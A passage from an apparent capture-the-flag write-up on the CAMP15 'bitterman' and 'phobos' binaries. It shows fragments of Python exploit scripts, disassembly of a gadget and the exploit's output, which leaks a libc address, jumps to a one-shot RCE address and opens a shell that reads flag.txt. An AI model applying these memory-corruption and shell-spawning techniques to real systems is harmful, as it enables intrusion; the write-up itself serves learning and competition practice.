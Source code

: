 ```python
    t = telnetlib.Telnet()
    t.sock = s
    t.interact()
pwn()
```
The reason for setting up `rbp`:

```
  400839:   call   QWORD PTR [r12+rbx*8]
  40083d:   add    rbx,0x1
  400841:   cmp    rbx,rbp  ; if rbx != rbp, we jump back!
  400844:   jne    400830 
  400846:   add    rsp,0x8  ; we wanna go here!
  40084a:   pop    rbx
  40084b:   pop    rbp
  40084c:   pop    r12
  40084e:   pop    r13
  400850:   pop    r14
  400852:   pop    r15
  400854:   ret    
```

And the exploit in action:

```bash
[+] Leaked puts(): 0x7fb9d6487a30
[+] libc base addr: 0x7fb9d6417000
[+] sending one shot rce addr (0x7fb9d645b2aa)
id
uid=1001(challenge) gid=1001(challenge) groups=1001(challenge)
whoami
challenge
ls -alh
total 40K
drwxr-xr-x 2 root root 4.0K Aug 13 13:46 .
drwxr-xr-x 3 root root 4.0K Aug  5 21:43 ..
-rw-r--r-- 1 root root  220 Aug  5 19:55 .bash_logout
-rw-r--r-- 1 root root 3.7K Aug  5 19:55 .bashrc
-rw-r--r-- 1 root root  675 Aug  5 19:55 .profile
-rwxr-xr-x 1 root root  11K Aug 12 01:28 bitterman
-rw-r--r-- 1 root root   43 Aug 13 13:47 flag.txt
-rwxr-xr-x 1 root root   64 Aug 12 01:34 run.sh
cat flag.txt
CAMP15_a786be6aca70bfd19b6af86133991f80  -
```

Phobos
---

Next, we turned to phobos for 300 points, which is nearly the same binary but without NX! After a few small changes to the previous exploit, we obtained the flag for phobos as well:


```python
#!/usr/bin/python
import struct, time
from socket import *

def q(x):
    return struct.pack("<Q", x)

def readtil(delim):
  buf = b''
  while not delim in buf:
      buf += s.recv(1)
  return buf
  
```